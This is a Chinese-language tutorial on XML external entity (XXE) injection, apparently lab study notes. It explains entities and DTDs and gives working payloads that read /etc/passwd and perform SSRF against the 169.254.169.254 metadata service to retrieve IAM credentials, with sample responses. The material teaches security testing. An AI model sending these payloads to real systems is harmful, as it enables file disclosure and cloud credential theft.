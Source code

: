 # XXE

XXE 注入指的是 XML 外部实体（XXE）注入，它是一种 Web 安全漏洞，允许攻击者干扰应用程序对 XML 数据的处理。它通常使攻击者能够查看应用程序服务器文件系统上的文件，并与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以通过利用 XXE 漏洞执行服务器端请求伪造（SSRF）攻击，将 XXE 攻击升级为危害底层服务器或其他后端基础设施。



**XXE 漏洞是如何产生的？**

一些应用程序使用 XML 格式在浏览器和服务器之间传输数据。执行此操作的应用程序几乎总是使用标准库或平台 API 来处理服务器上的 XML 数据。XXE 漏洞的出现是因为 XML 规范包含各种潜在危险的功能，而标准解析器支持这些功能，即使应用程序通常不使用它们。



## 什么是 XML？

XML 代表“可扩展标记语言”。XML 是一种设计用于存储和传输数据的语言。与 HTML 类似，XML 使用标签和数据的树状结构。



**XML 实体**是一种在 XML 文档中表示数据项的方式，而非直接使用数据本身。XML 语言规范中内置了多种实体。例如，实体 `<` 和 `>` 分别代表字符 `<` 和 `>` 。这些是用于标识 XML 标签的元字符，因此当它们出现在数据中时，通常必须使用其实体来表示。



**XML 文档类型定义（document type definition DTD）**包含可以定义 **XML 文档结构、可包含的数据值类型及其他项目的声明**。DTD 在 XML 文档开头的可选 `DOCTYPE` 元素内声明。DTD 可以完全自包含于文档本身（称为“内部 DTD”），也可以从其他地方加载（称为“外部 DTD”），或者两者兼有（称为“混合 DTD”）。



**XML 内部实体**在 DTD 中定义自定义实体。例如：

```
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

此定义意味着在 XML 文档中使用实体引用 `&myentity;` 时，将被替换为定义的值：" `my entity value` "。



**XML 外部实体**是一种自定义实体，其定义位于声明它们的 DTD 之外。

外部实体的声明使用 `SYSTEM` 关键字，并且必须指定一个 URL，从该 URL 加载实体的值。例如：

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```



URL 可以使用 `file://` 协议，因此可以从文件加载外部实体。例如：

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XML 外部实体是引发 XML 外部实体攻击的主要途径。



## 任意文件读取

XXE 注入攻击读取服务器任意文件，主要有两个步骤：

- 引入（或编辑）一个 `DOCTYPE` 元素，该元素定义了一个包含文件路径的外部实体。
- 应用程序响应中返回的 XML 数据值。



例如，假设一个购物应用程序通过向服务器提交以下 XML 来检查产品的库存：

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```



该应用程序未针对 XXE 攻击采取特定防御措施，因此你可以通过提交以下 XXE 有效载荷来利用 XXE 漏洞检索 `/etc/passwd` 文件：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```



此 XXE 负载定义了一个外部实体 `&xxe;` ，其值为 `/etc/passwd` 文件的内容，并在 `productId` 值中使用该实体。

- XML 解析器**首先读取整个 XML 文档**，包括其 `DOCTYPE` 声明。发现 `<!ENTITY xxe SYSTEM "file:///etc/passwd">` 定义了一个外部实体 `xxe`。
- 如果解析器未禁用外部实体（默认配置下通常允许），解析器根据 `SYSTEM "file:///etc/passwd"` 指示，**自动**通过 `file://` 协议读取 `/etc/passwd` 文件内容。
- 解析器遍历 XML 文档，将 `&xxe;` 引用替换为 `/etc/passwd` 文件的实际内容。
- 服务器应用程序通过解析器接口（如 `getElementById("productId").getTextContent()`）获取 `<productId>` 的值。此时应用程序拿到的是 **已替换后的文件内容**，而非原始字符串 `&xxe;`。



productId 的值从**一个整数字符串**变成了**一个文件的内容**，当后端应用程序尝试通过 productId 的值读取信息时，无法识别 productId 的值，可能返回以下信息：

```
Invalid product ID: [product content]
```

因为 [product content] 实际是 /etc/passwd 文件的内容，所以服务器返回的内容如下：

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```



如果服务器不输出 [product content] 的内容，而是只返回 Invalid product id，则此处不存在任意文件读取。



**不同服务器**或**同一服务器不同的API端点（HTTP URL路径）**，它们的业务逻辑可能不同。

例如在下面这个请求中，如果出现错误，服务端返回的错误信息中可能包含 productId 值的内容，但不包含 storeId 值的内容，亦或者相反。在渗透测试中应该**逐个测试所有输入点**而非依赖单一参数。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```



## SSRF 攻击

XXE 攻击的可用于执行**服务器端请求伪造（SSRF）**，服务器端应用程序可能被诱导向**它可以访问的任何 URL 发出 HTTP 请求**。



要利用 XXE 漏洞执行 SSRF 攻击，你需要使用目标 URL 定义一个外部 XML 实体，并在数据值中使用定义的实体。

如果应用程序在响应返回**定义的实体**，那么将能够在应用程序的响应中查看来自 URL 的响应，从而实现与后端系统的双向交互。如果不能，则只能执行盲 SSRF 攻击（这仍可能带来严重后果）。



在以下 XXE 示例中，外部实体将导致服务器向组织基础设施内的内部系统发起后端 HTTP 请求：

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```



**实验**

该实验室具有“查询库存”的功能，会解析 XML 格式的输入（启用外部实体），并返回响应中的无效的值。

已知实验室内部网站 `http://169.254.169.254/` 上存在敏感信息，利用 XXE 漏洞执行 SSRF 攻击访问内部网站上的敏感信息。



当使用网站上的 “查询库存” 的按钮时，会使用 XML  格式向服务端发送 HTTP 请求。

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```



该网站开启外部实体解析，定义一个外部实体，指定一个 URL，从该 URL 加载实体的值，在 `productId` 值中使用该实体。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/" > ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```



服务端返回以下内容，product 的值 latest 是内部网站 `http://169.254.169.254/` 返回的内容，推测可能是 URL 路径的一部分，进行拼接后继续发送 HTTP 请求。

```
"Invalid product ID: latest"
```



此时 XML 外部实体访问的 URL 为 `http://169.254.169.254/latest/`。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/" > ]>

<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```



服务端返回的内容依然可能 URL 路径的一部分，继续进行拼接。

```
"Invalid product ID: meta-data"
```



一直持续拼接，当访问 `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` URL 路径时会返回敏感信息。

```
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2025-03-15T09:13:26.393159078Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "uM5w8FwGCH6KnW7vyMJG",
  "SecretAccessKey" : "nsGocfgOQ4LncuvF3XQeYROsE4myaraKZZmduHL4",
  "Token" : "A981ygGNfmOhuJPgIXpPcq09z4c9YiH94CcIKeAhQFur3j9sZXWKR6rp96IBnnCNRfVeFIjMU5nuuDUdY0XLOWHqqkwUe0cP1Pkd3lxTPJUH3oTl5QN9VfullgMkfTSUzurNorv5ztjeGBktD1JNOOjfeWTCmA2ULYy2ZIcGAHD9FgYEjk93QokIq1JomM88PIJyQgzCbZoY25j3orgAftEJd4iBT7xIaBkbDv3wuA10h7x5ueP92fisqv8U77La",
  "Expiration" : "2031-03-14T09:13:26.393159078Z"
}"
```

